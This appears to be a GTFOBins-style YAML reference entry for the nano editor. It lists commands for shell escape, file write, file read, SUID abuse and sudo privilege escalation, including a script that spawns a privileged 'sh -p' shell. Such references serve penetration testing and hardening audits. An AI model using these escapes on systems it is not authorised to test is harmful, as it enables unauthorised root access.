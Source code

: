 ```yaml
---
functions:
  shell:
    - code: |
        nano
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        nano -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo '#!/bin/sh -p
        exec sh -p' > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        sudo nano
        ^R^X
        reset; sh 1>&0 2>&0
---
```

